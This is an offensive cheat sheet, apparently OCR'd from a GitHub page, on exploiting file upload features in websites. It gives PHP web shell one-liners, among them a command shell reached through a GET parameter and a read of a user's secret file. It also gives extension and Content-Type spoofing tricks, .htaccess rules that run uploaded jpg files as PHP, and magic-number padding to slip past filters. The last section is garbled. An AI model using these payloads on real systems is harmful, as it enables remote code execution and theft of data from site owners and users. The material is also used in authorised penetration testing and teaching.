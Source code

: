 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

    <?php system('ls') ?>
  
    <?php system('id') ?>
  
    <?php system($_GET['cmd']); ?>       to get the file http://site.com/files/avatars/profile.jpg?cmd=ls

    <?php echo file_get_contents('/home/tony/secret'); ?>


## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.

application/x-php	Old trick if server-side allows this — rare now.

application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.

text/plain	Might bypass if the app only checks for image MIME types.

multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.

text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.

image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

      AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the jpg

      AddType text/html .jpg                       ---->This will process any jpg file uploaded as html


## Magic Numbers

1. For .png: look for ".png" or ".png.php" and add PNG magic in the first line of content extension in the submitted files 'PNG' in hexadecimal: "50 4E 47" )


